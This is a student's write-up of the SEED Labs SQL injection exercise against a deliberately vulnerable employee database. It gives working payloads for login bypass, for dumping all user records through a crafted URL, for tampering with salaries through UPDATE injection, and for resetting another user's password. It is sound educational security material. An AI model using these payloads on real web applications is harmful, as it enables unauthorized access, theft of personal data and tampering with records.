

# 8 $-$ Sql Injection

## Notes

| Name    | Employee ID   | Password  | Salary    | Birthday  | SSN       |
| - | - | - | - | - | - | 
Admin   | 99999 | seedadmin  |
Alice   | 10000 | seedalice  |
Boby    | 20000 | seedboby  |
Ryan    | 30000 | seedryan  |
Samy    | 40000 | seedsamy  |
Ted     | 50000 | seedted  |

---

# Task 1 $-$ Get Familiar with SQL Statements
- connect to db shell: `mysql -u root -pdees`
- we can see the databases and connect to the wanted one:
  ```sql
  show databases;
  use sqllab_users;
  ```
- we can see the structure of the only table there (credential)
  ```sql
  describe credential;
  +-------------+--------------+------+-----+---------+----------------+
  | Field       | Type         | Null | Key | Default | Extra          |
  +-------------+--------------+------+-----+---------+----------------+
  | ID          | int unsigned | NO   | PRI | NULL    | auto_increment |
  | Name        | varchar(30)  | NO   |     | NULL    |                |
  | EID         | varchar(20)  | YES  |     | NULL    |                |
  | Salary      | int          | YES  |     | NULL    |                |
  | birth       | varchar(20)  | YES  |     | NULL    |                |
  | SSN         | varchar(20)  | YES  |     | NULL    |                |
  | PhoneNumber | varchar(20)  | YES  |     | NULL    |                |
  | Address     | varchar(300) | YES  |     | NULL    |                |
  | Email       | varchar(300) | YES  |     | NULL    |                |
  | NickName    | varchar(300) | YES  |     | NULL    |                |
  | Password    | varchar(300) | YES  |     | NULL    |                |
  +-------------+--------------+------+-----+---------+----------------+
  ```
- We get all Alice's info:
  ```sql
  select * from credential where Name='Alice';

  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
  | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
  |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
  +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+

  ```

---

# Task 2 $-$ SQL Injection Attack on SELECT Statement

## 2.1 from the browser
- Inspecting the code we understand that the only vulnerable point is the username field (since the password gets hashed before even being sent to the db)
- so we can exploit the fact and trick it, entering this as username: `Admin' or 's'='s` or even `Admin' or '`

## 2.2 From the shell
- we can simply adapt the url with the special characters:
- `http://www.seed-server.com/unsafe_home.php?username=Admin%27+or+%27&Password=p`
- and we can see we get the table with all users
  ```html
  <table class='table table-striped table-bordered'>
    <thead class='thead-dark'>
      <tr>
        <th scope='col'>Username</th>
        <th scope='col'>EId</th>
        <th scope='col'>Salary</th>
        <th scope='col'>Birthday</th>
        <th scope='col'>SSN</th>
        <th scope='col'>Nickname</th>
        <th scope='col'>Email</th>
        <th scope='col'>Address</th>
        <th scope='col'>Ph. Number</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <th scope='row'> Alice</th>
        <td>10000</td>
        <td>20000</td>
        <td>9/20</td>
        <td>10211002</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Boby</th>
        <td>20000</td>
        <td>30000</td>
        <td>4/20</td>
        <td>10213352</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Ryan</th>
        <td>30000</td>
        <td>50000</td>
        <td>4/10</td>
        <td>98993524</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Samy</th>
        <td>40000</td>
        <td>90000</td>
        <td>1/11</td>
        <td>32193525</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Ted</th>
        <td>50000</td>
        <td>110000</td>
        <td>11/3</td>
        <td>32111111</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th scope='row'> Admin</th>
        <td>99999</td>
        <td>400000</td>
        <td>3/5</td>
        <td>43254314</td>
        <td></td>
        <td></td>
        <td></td>
        <td></td>
      </tr>
    </tbody>
  </table>
  ```

## 2.3 Append a new SQL statement
- Tried with:
  `Admin'; update credential set Name='2Boby' where Name='Boby' or '`
- basically the security measure is intrinsic to the `query` function from the `mysqli` library, as the documentation says:
  > The API functions mysqli::query() and mysqli::real_query() do not set a connection flag necessary for activating multi queries in the server. An extra API call is used for multiple statements to reduce the damage of accidental SQL injection attacks. An attacker may try to add statements such as ; DROP DATABASE mysql or ; SELECT SLEEP(999). If the attacker succeeds in adding SQL to the statement string but mysqli::multi_query is not used, the server will not execute the injected and malicious SQL statement.
- since the code processing the login (`if (!$result = $conn->query($sql)`) {) uses that, we cannot inject multiple sql operations 

--- 

# Task 3 $-$ SQL Injection Attack on UPDATE Statement
## 3.1 $-$ Modify your own salary
- Basically we can exploit one of the fields updated in the form to inject the update on the Salary as well, for example on the nickname type: `Alice2',Salary='1000000`
- and it works:
  - 

## 3.2 $-$ Modify other people’ salary
- we can either craft a malicious url to send to the boss (since the update is made via GET):
  - http://www.seed-server.com/unsafe_edit_backend.php?NickName=%27%2C+Salary%3D%271&Email=&Address=&PhoneNumber=&Password=
- or exploit again the form (assuming we know the id of Boby, which is 2) and to avoid the last part in the code, which is a where, that would break the syntax since we want to inject our own where, comment the sql code at the end of the text we send:
  - `', Salary=2 where id=2;#`

## 3.3 $-$ Modify other people’ password
- we can simply calculate the sha1 hash via php interactive console:
  ```bash
  php -a

  php > echo sha1('bobmerda');
  253990e8403bbe0ad22d763fed851edbe6056431
  ```
- we can then verify that boby is no longer able to login via his old password (seedboby) while we are with the new one (bobmerda)
- 